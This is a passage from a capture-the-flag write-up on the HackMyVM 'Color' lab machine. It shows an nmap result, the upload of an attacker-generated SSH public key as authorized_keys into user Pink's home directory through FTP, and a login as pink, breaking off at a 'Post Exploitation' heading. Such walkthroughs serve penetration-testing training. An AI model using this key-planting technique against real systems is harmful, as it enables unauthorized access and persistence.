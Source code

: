```bash
22/tcp open  ssh
MAC Address: 08:00:27:BF:97:F6 (Oracle VirtualBox virtual NIC)
Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds
```

The ssh port has been opened after the knocking process. Remember that when we connect to the FTP server, we have access to the user Pink's home directory. Let's add our SSH public key to the authotized_keys file in the .ssh directory and connect to the target as Pink using the associated private key. First, we will generate the private and public keys on our target using ssh-kegen command.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color/Misc File]
└─$ ssh-keygen -t ed25519
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/pentester/.ssh/id_ed25519): ./id_ed25519
<SNIP>
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color/Misc File]
└─$ mv id_ed25519.pub authorized_keys
```

Next, we will upload the file to Pink's .ssh directory using the FTP server.
```bash
ftp> ascii
200 Switching to ASCII mode.
ftp> put authorized_keys
local: authorized_keys remote: authorized_keys
229 Entering Extended Passive Mode (|||8916|)
150 Ok to send data.
100% |************************************************************************************************************************************************|    97      681.48 KiB/s    --:-- ETA
226 Transfer complete.
97 bytes sent in 00:00 (59.57 KiB/s)
ftp> 
```

Now, we can connect to the target as the pink user using the private key of the public key we uploaded earlier.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color/Misc File]
└─$ ssh pink@10.0.2.28 -i id_ed25519 
Linux color 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Feb 11 19:16:48 2023 from 192.168.1.86
pink@color:~$ 
```

## Post Exploitation
